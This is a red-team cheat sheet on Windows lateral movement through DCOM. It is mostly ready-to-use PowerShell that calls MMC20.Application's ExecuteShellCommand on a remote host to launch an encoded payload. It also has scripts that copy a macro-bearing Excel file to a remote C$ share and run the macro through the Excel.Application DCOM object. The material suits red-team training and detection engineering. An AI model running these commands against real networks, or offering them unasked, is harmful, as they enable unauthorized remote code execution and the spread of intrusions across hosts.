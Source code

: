 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - lateral-movement
  - living-off-the-land
  - T1021-003
  - network-protocols
  - msrpc
  - windows
---
```

# Living off the Land

## 01 - PowerShell

### 1.1 - `MMC20.Application`

```powershell
C:\> powershell -exec bypass -command "[activator]::CreateInstance([type]::GetTypeFromProgID('MMC20.Application', '<IP>')).Document.ActiveView.ExecuteShellCommand('C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe', $null, '-E <base64_payload>', '7')"

PS C:\> [activator]::CreateInstance([type]::GetTypeFromProgID('MMC20.Application', '<IP>')).Document.ActiveView.ExecuteShellCommand('C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe', $null, '-E <base64_payload>', '7')
```

### 1.2 - `Excel.Application`

```powershell
PS C:\> $com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "<IP>"))
$com | Get-Member
```

```vbscript
Sub mymacro()
    'payload goes here
    Shell ("notepad.exe")
End Sub
```

`$ cat copyexceldcom.ps1`

---

```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "<IP>"))

$LocalPath = "path\to\excelmacrofile.xls"

$RemotePath = "\\<IP>\C$\excelmacrofile.xls"

[System.IO.File]::Copy($LocalPath, $RemotePath, $True)
```

`$ cat openexceldcom.ps1`

---

```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "<IP>"))

$LocalPath = "C:\path\to\excelmacrofile.xls"

$RemotePath = "\\<IP>\C$\excelmacrofile.xls"

[System.IO.File]::Copy($LocalPath, $RemotePath, $True)

# When running as system adminstrator privileges
$Path = "\\<IP>\C$\Windows\sysWOW64\config\systemprofile\Desktop"

$temp = [System.IO.Directory]::CreateDirectory($Path)

$Workbook = $com.Workbooks.Open("C:\excelmacrofile.xls")

$com.Run("mymacro")
```

---
## References

### evilcomrade

- [evilcomrade: Windows Lateral Movement Fu](https://1evilcomrade.blogspot.com/2017/11/windows-lateral-movement-fu.html)

### Riccardo Ancarani

- [Riccardo Ancarani: Red Team Adventures - Lateral Movement Windows and Active Directory](https://riccardoancarani.github.io/2019-10-04-lateral-movement-megaprimer/)

### Hacking Articles

- [Hacking Articles: Remote Services (Mitre:T1021)](https://www.hackingarticles.in/lateral-movement-remote-services-mitret1021/)

### DMCXBlue

- [DMCXBlue: Component Object Model and Distributed COM](https://dmcxblue.gitbook.io/red-team-notes/execution/com)